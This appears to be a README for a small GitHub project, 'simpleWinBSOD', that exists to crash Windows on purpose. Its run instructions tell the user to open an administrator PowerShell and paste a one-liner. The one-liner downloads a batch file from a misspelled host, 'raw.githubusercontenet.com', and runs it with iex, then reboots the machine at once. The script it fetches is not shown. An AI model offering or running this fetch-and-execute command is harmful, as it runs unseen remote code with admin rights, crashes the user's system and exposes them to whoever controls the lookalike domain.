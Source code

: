 # simpleWinBSOD
A simple setup for making Windows BSOD intentionally.

## to run
open powershell as admin and run
```powershell
iwr "raw.githubusercontenet.com/ApplePair111/simpleWinBSOD/main/Main.bat" | iex
shutdown /r /t 0
